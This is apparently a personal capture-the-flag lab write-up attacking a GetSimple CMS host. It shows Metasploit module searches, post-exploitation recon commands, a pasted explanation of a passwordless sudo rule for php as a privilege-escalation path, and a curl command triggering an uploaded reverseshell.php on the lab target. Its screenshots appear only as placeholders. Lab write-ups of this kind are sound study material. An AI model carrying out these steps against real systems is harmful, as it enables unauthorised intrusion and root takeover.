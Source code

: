 

```
       =[ metasploit v6.4.18-dev                          ]
+ -- --=[ 2437 exploits - 1255 auxiliary - 429 post       ]
+ -- --=[ 1471 payloads - 47 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > search getsimple

Matching Modules
================

   #  Name                                              Disclosure Date  Rank       Check  Description
   -  ----                                              ---------------  ----       -----  -----------
   0  exploit/unix/webapp/get_simple_cms_upload_exec    2014-01-04       excellent  Yes    GetSimpleCMS PHP File Upload Vulnerability
   1  exploit/multi/http/getsimplecms_unauth_code_exec  2019-04-28       excellent  Yes    GetSimpleCMS Unauthenticated RCE


Interact with a module by name or index. For example info 1, use 1 or use exploit/multi/http/getsimplecms_unauth_code_exec                                                                                                            
```

![[Pasted image 20241007144838.png]]

This attack is successful and we are now username: www-data, Which allows us to grab the first capture flag
![[Pasted image 20241007145121.png]]

![[Pasted image 20241007145605.png]]

Following attack we execute the command below to identify any other potential paths for privilege escalation
```
run post/multi/recon/local_exploit_suggester
```

![[Pasted image 20241007170158.png]]

Check for sudo powers
```
run post/multi/recon/sudo_commands
```

![[Pasted image 20241007181120.png]]

From ChatGPT:
The sudo configuration you're looking at allows specific users to run certain commands with elevated privileges, typically as the root user or another user. Let's break it down:

| **Field**       | **Explanation**                                                                                                                                   |
| --------------- | ------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Command**     | `/usr/bin/php` – This allows the execution of the PHP interpreter located at this path. Users can run any PHP script with elevated privileges.    |
| **RunAsUsers**  | `ALL` – The command can be run as any user, not just the root user. Users can impersonate any other user when running this command.               |
| **RunAsGroups** | `ALL` – The command can be run with the privileges of any group on the system.                                                                    |
| **Password?**   | `""` (empty) – No password is required when running the command with sudo. This bypasses the normal password prompt.                              |
| **Privesc?**    | `True` – Privilege escalation is allowed, meaning running this command can lead to higher permissions, such as root or another user's privileges. |
|                 |                                                                                                                                                   |

Upload reverseshell.php to data/uploads location

![[Pasted image 20241007214044.png]]



```
curl http://10.129.42.249/data/uploads/reverseshell.php
```

Validate Foothold, and proceed to next steps